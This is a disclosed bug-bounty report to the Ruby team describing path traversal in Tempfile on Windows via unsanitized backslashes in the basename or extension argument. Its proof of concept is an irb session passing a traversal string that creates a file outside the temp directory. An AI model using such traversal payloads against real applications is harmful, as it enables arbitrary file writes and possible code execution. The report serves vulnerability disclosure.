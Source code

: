 # Path traversal in Tempfile on windows OS due to unsanitized backslashes

## Report Details
- **Report ID**: 1131465
- **URL**: https://hackerone.com/reports/1131465
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-20T19:21:50.112Z
- **Disclosed**: 2021-04-07T12:46:20.750Z

## Reporter
- **Username**: bugdiscloseguys
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Hi team,

##Summary

We've noticed that both arguments (basename and ext) of Tempfile on Windows are vulnerable to a path traversal which could allow unintentional file creating in arbitrary writable directories. 

Tempfile often has a user control either by basename or ext (or both). 

## PoC

~~~
irb(main):029:0> Tempfile.open(["\\..\\..\\..\\..\\..\\Users\\rootx\\malicious",".rb"])
=> #<Tempfile:C:/Users/rootx/AppData/Local/Temp\..\..\..\..\..\Users\rootx\malicious20210321-22472-fvuodx.rb>
irb(main):030:0> puts `dir C:\\Users\\rootx\\`
 Volume in drive C has no label.
 Volume Serial Number is C0F2-8D87

 Directory of C:\Users\rootx

... REDACTED ...
21-03-2021  00:45                 0 malicious20210321-22472-fvuodx.rb
... REDACTED ...
~~~

The same can be accomplished via ext argument. 

Thanks,
Harsh and Rahul,
HTTPVoid

## Impact

Unintentional file creation in an arbitrary directory. Could potentially cause RCE in RoR applications.

## Attachments
No attachments

